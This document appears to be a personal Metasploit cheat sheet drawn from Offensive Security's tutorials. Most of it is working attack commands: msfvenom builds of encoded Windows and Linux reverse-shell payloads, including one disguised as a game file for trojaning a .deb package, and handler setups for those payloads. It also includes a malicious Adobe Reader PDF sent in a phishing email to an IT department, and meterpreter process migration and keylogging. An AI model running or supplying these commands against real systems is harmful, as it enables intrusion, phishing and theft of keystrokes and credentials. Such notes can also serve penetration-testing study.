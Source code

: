 **Windows** (generic)
`msfvenom --list-options -p windows/shell/reverse_tcp `
check payload options for setup

`msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=eth0 LPORT=31337 -b "\x00" -e x86/shikata_ga_nai -f exe -o /tmp/1.exe`
create it

within msfconsole
`use multi/handler`
to create the listener

`set payload windows/shell/reverse_tcp`
and the host:port

---

**Adobe Reader ‘util.printf()’ JavaScript Function Stack Buffer Overflow Vulnerability.** https://www.offensive-security.com/metasploit-unleashed/client-side-exploits/

`use exploit/windows/fileformat/adobe_utilprintf`
set up the reverse shell inside the pdf

`sendEmail -t itdept@victim.com -f techsupport@bestcomputers.com -s 192.168.8.131 -u Important Upgrade Instructions -a /tmp/BestComputers-UpgradeInstructions.pdf`
	Reading message body from STDIN because the '-m' option was not used.
	If you are manually typing in a message:
	  - First line must be received within 60 seconds.
	  - End manual input with a CTRL-D on its own line.
	
	IT Dept,
	
	We are sending this important file to all our customers. It contains very important instructions for upgrading and securing your software. Please read and let us know if you have any problems.
	
	Sincerely,
	
	Best Computers Tech Support
oh la la

---

**Keylogging!**
`meterpreter > ps`
get a list of processes

`meterpreter > run post/windows/manage/migrate `
move to another process to not get terminated

`meterpreter > sysinfo`
system info

`meterpreter > use priv`
no idea

`meterpreter > run post/windows/capture/keylog_recorder `
key logger!

---

**Win pass the hash login w/out password**
https://www.offensive-security.com/metasploit-unleashed/psexec-pass-hash/

---

**Linux**
`msfvenom -a x86 --platform linux -p linux/x86/shell/reverse_tcp LHOST=192.168.1.101 LPORT=443 -b "\x00" -f elf -o /tmp/evil/work/usr/games/freesweep_scores`
build the connect file (see tutorial to attach to a .deb package https://www.offensive-security.com/metasploit-unleashed/binary-linux-trojan/)

`msfconsole -q -x "use exploit/multi/handler;set PAYLOAD linux/x86/shell/reverse_tcp; set LHOST 192.168.1.101; set LPORT 443; run; exit -y"`
setup listener


